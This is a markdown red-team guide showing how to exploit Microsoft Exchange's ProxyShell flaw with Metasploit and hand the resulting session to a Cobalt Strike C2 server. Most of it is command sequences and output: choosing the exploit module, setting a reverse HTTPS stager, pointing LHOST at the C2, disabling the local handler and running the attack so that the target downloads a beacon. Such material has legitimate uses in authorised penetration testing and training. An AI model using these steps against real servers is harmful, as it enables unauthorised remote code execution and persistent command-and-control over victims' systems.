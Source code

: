 ```yaml
---
author(s):
  - Sebastian Dante Alexander
tags:
  - initial-access
  - exploitation
  - cobalt-strike
  - windows
credits:
  - rsmudge
---
```

# Cobalt Strike

> [!NOTE]
> This section is subjected to change with different exploits as they get patched as time passes.

This guide is fairly easy to exploit a vulnerable service to establish connection to cobalt strike. This should work with most exploits without needing to reinvent the wheel. We'll be using proxyshell as an example.

```
msf6 > search -u exchange_proxyshell_rce  
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
  
Matching Modules
================

  #  Name                                          Disclosure Date  Rank       Check  Description
  -  ----                                          ---------------  ----       -----  -----------
  0  exploit/windows/http/exchange_proxyshell_rce  2021-04-06       excellent  Yes    Microsoft Exchange ProxyShell RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/exchange_proxyshell_rce
[*] Using exploit/windows/http/exchange_proxyshell_rce
```

Depending on the listener (or shell handler) type. Set the payload to `windows/x64/meterpreter/reverse_https` for an HTTPS beacon network traffic. If you're using HTTP beacon network traffic without TLS (encrypted packets) then set the payload to `windows/x64/meterpreter/reverse_http`. You're not really delivering `meterpreter` session.

```
msf6 exploit(windows/http/exchange_proxyshell_rce) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(windows/http/exchange_proxyshell_rce) > options

Module options (exploit/windows/http/exchange_proxyshell_rce): 

  Name              Current Setting  Required  Description
  ----              ---------------  --------  -----------
  EMAIL                              no        A known email address for this organization
  Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
  RPORT             443              yes       The target port (TCP)
  SRVHOST           0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
  SRVPORT           8080             yes       The local port to listen on.
  SSL               true             no        Negotiate SSL/TLS for outgoing connections
  SSLCert                            no        Path to a custom SSL certificate (default is randomly generated)
  URIPATH                            no        The URI to use for this exploit (default is random)
  UseAlternatePath  false            yes       Use the IIS root dir as alternate path
  VHOST                              no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_https):

  Name      Current Setting  Required  Description
  ----      ---------------  --------  -----------
  EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
  LHOST                      yes       The local listener hostname
  LPORT     8080             yes       The local listener port
  LURI                       no        The HTTP Path


Exploit target:

  Id  Name
  --  ----
  0   Windows Powershell
```

Set the target's IP address.

```
msf6 exploit(windows/http/exchange_proxyshell_rce) > set rhosts <target_IP>
rhosts => <target_IP>
```

Specify the C2's IP address and port. This will receive from a #metasploit-framework stager. You’re telling it in this case to generate an HTTPS stager to download a payload.

```
msf6 exploit(windows/http/exchange_proxyshell_rce) > set lhost <cobalt_strike_C2_IP>
lhost => <C2_IP>
msf6 exploit(windows/http/exchange_proxyshell_rce) > set lport 443
lport => 443
```

Set `DisablePayloadHandler` and `PrependMigrate` to the boolean values accordingly in this setup.

```
msf6 exploit(windows/http/exchange_proxyshell_rce) > set DisablePayloadHandler true
DisablePayloadHandler => true
msf6 exploit(windows/http/exchange_proxyshell_rce) > set PrependMigrate true
PrependMigrate => true
msf6 exploit(windows/http/exchange_proxyshell_rce) > set AllowNoCleanup true
AllowNoCleanup => true
```

Exploit the target and you should receive a beacon callback on your C2.

```
msf6 exploit(windows/http/exchange_proxyshell_rce) > run
```

---
## References

- [HelpSystems: Metasploit to Beacon Initial Foothold](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/init-access_client-side-exploits.htm#_Toc65482765)